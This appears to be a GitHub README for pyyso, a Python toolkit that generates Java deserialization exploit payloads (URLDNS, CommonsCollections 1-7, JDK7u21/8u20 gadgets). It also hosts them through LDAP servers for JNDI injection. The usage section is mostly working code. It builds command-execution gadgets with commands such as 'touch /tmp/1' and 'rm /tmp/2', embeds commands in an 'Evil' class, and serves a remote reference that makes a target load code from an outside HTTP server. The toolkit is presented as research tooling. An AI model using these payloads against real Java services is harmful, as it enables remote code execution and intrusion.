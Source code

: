 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a ldap/rmi server to host java serialized pocs
- Communicating and collaborating with other Python packages 

pyyso has implemented
- URLDNS Gadget
- CommonCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- java class embed with command
- ldap server hosting java serialized pocs
- ldap server hosting java remote reference factory

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```
pip install pyyso
```

## How to use
First import pyyso
```
import pyyso
```
to generate a java serialized zed poc use:
```
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
```
to generate a java class embed with command use:
```
pyyso.evil("touch /tmp/1") #return java class embed with command in bytes
```
to start a ldap server hosting java serialized pocs:
```
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.start()
```
this will start a ldap server listening 0.0.0.0:1389  
you can change the hosted java serialized data by:
```
server.serobj=pyyso.cc1("rm /tmp/2")
```
to start a ldap server hosting java remote reference factory:
```
pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
```
this will start a ldap server listening 0.0.0.0:1389  
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

## License
[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
